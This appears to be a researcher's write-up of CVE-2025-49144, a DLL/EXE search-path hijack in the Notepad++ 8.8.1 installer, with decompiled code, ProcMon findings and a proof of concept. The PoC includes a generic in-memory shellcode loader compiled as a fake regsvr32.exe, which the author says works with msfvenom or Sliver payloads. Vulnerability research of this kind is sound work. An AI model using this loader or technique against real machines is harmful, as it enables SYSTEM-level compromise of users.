

# Notepad++ - CVE-2025-49144

### CVE-2025-49144

#### Description <a href="#vulndescriptiontitle" id="vulndescriptiontitle"></a>

Notepad++ is a free and open-source source code editor. In versions 8.8.1 and prior, a privilege escalation vulnerability exists in the Notepad++ v8.8.1 installer that allows unprivileged users to gain SYSTEM-level privileges through insecure executable search paths. An attacker could use social engineering or clickjacking to trick users into downloading both the legitimate installer and a malicious executable to the same directory (typically Downloads folder - which is known as Vulnerable directory). Upon running the installer, the attack executes automatically with SYSTEM privileges. This issue has been fixed and will be released in version 8.8.2.

Source: [https://nvd.nist.gov/vuln/detail/CVE-2025-49144](https://nvd.nist.gov/vuln/detail/CVE-2025-49144)

***

I used a simple file creation, but this works with any msfvenom, silver shellcode.

***

## Summary:

The vulnerability stems from how the installer checks for the regsvr32. During Dynamic Analysis I've found that it first tries to find it in the working directory of the installer, meaning that the PATH is not quoted, thus not absolute.

***

## Static Analysis

Every vulnerability hunt begins with a hypothesis. Based on the description of the CVE and given the fact that installers run with elevated privileges, I wanted to see what kernel32.dll are called by the installer or any other WinAPI calls.

<figure><figcaption></figcaption></figure>

Upon analyzing more functions, I found myself in a rabbithole and I came to the conclusion that this might be a NSIS unpacker.

This was one of the things that made me think of that strongly:

```c
void FUN_004066bf(LPWSTR param_1,int param_2)
// Key API calls found inside the path resolution function FUN_004066bf
GetSystemDirectoryW(lpBuffer, 0x400);
GetWindowsDirectoryW(lpBuffer, 0x400);
SHGetPathFromIDListW(pidl, lpBuffer);
lstrcatW(lpBuffer, L"\\Microsoft\\Internet Explorer\\Quick Launch");
```

On top of that, the **`entry`**&#x66;unction confirmed my hunch:

The following calls made it clearer:&#x20;

* `GetTempPathW(...)`
* `wsprintfW(..., u_~nsu%X.tmp_0040a314, ...)`
* `SetCurrentDirectoryW((LPCWSTR)&DAT_00436800)`
* `CopyFileW(...)`

```c
 GetTempPathW(0x400,(LPWSTR)&DAT_00436800);
  iVar5 = FUN_00403614();
  if (iVar5 == 0) {
    GetWindowsDirectoryW((LPWSTR)&DAT_00436800,0x3fb);
    lstrcatW((LPWSTR)&DAT_00436800,u_\Temp_0040a354);
    iVar5 = FUN_00403614();
    if (iVar5 == 0) {
      GetTempPathW(0x3fc,(LPWSTR)&DAT_00436800);
      lstrcatW((LPWSTR)&DAT_00436800,(LPCWSTR)&DAT_0040a34c);
      SetEnvironmentVariableW(u_TEMP_0040a340,(LPCWSTR)&DAT_00436800);
      SetEnvironmentVariableW((LPCWSTR)&DAT_0040a338,(LPCWSTR)&DAT_00436800);
      iVar5 = FUN_00403614();
      if (iVar5 == 0) goto LAB_00403b90;
    }

  }

while( true ) {

            wsprintfW((LPWSTR)(&DAT_00436800 + iVar5 * 2),u_~nsu%X.tmp_0040a314,(uint)uVar1);
            FUN_004066bf((LPWSTR)&DAT_0042c800,*(int *)(DAT_00429a70 + 0x120));
            if (pvStack_3e4 == (HANDLE)0x0) {
              DVar15 = FUN_00405c30((LPCWSTR)&DAT_00436800);
            }

            else {
              DVar15 = FUN_00405bd6((LPCWSTR)&DAT_00436800);
            }

 SetCurrentDirectoryW((LPCWSTR)&DAT_00436800);
  BVar3 = CopyFileW((LPCWSTR)&DAT_00437800,(LPCWSTR)&DAT_0042c800,1);

```

Upon digging more into some functions: `HWND FUN_00401434(HWND param_1)`, I noticed that this is a big switch-case block. Interesting stuff I found at 0x28:&#x20;

<figure><figcaption></figcaption></figure>

```c
case 0x28:
    // Stack calls to several functions
    pWVar21 = FUN_00402dab(0);      // Probably executable
    pWVar8 = FUN_00402dab(0x31);     // Probably the execute verb
    pWVar26 = FUN_00402dab(0x22);   // Parameters
    // ...
    // Structure 'local_90' gets assembled with the parameters
    local_90._12_4_ = -(uint)(*pWVar21 != L'\0') & (uint)pWVar21; // Sets lpFile
    local_90._16_4_ = pWVar8;                                    // Sets lpVerb
    local_90._20_4_ = -(uint)(*pWVar26 != L'\0') & (uint)pWVar26; // Sets lpParameters
    // ...
    // Wrapper call with the structure assembled
    iVar20 = FUN_00405ca8((SHELLEXECUTEINFOW *)local_90);
    // ...
    break;
```

After this wrapper call we can see several Reg calls:

<figure><figcaption></figcaption></figure>

There are many Reg Calls after the Shell Direct API Call, meaning that somewhere in between regsvr32.exe is called. I tried filtering for string, but we can't find a PATH directly.

<figure><figcaption></figcaption></figure>

Going deeper:

```c
void FUN_00405ca8(SHELLEXECUTEINFOW *param_1)
{
  param_1->lpIDList = (void *)0x0;
  param_1->cbSize = 0x3c;
  ShellExecuteExW(param_1); // <-- DIRECT API CALL
  return;
}
```

I am still a beginner in RE and static, so I decided to move to ProcMon and confirm my hunches.

***

## Dynamic Analysis

Turned on ProcMon and started investigating.&#x20;

Filtering out the npp installer, didn't take me too long to see such a gem (from an attacker perspective):

<figure><figcaption></figcaption></figure>

Voila! The installer tried to find regsvr32.exe first in the directory file! Meaning that the PATH is unquoted, thus not absolute!

To further confirm my initial hunch, I decided to check what's going on in the Temp directory:

<figure><figcaption></figcaption></figure>

***

## Writing the PoC

I decided to simply write a .cs file:

```csharp
using System.IO;
public class PoC {
    public static void Main() {
        File.WriteAllText(@"C:\Windows\Temp\NOTEPAD_VULNERABIL.txt", "Acest fisier demonstreaza executia de cod cu privilegii de SYSTEM.");
    }
}
```

Then convert it into shellcode with donut, storing it in a header file.

Wrote a small C code to load that shellcode in memory:

```c
#include <windows.h>
#include "payload.h"

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    
    unsigned int payload_len = sizeof(payload);

    void * exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (exec_mem == NULL) {
        return 1;
    }

    RtlMoveMemory(exec_mem, payload, payload_len);

    rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

    if ( rv != 0 ) {
            th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
            WaitForSingleObject(th, -1);
    }

    return 0;
}
```

Compiled it as `regsvr32.exe` and stored it in the same folder with the installer.

***

## PoC Video


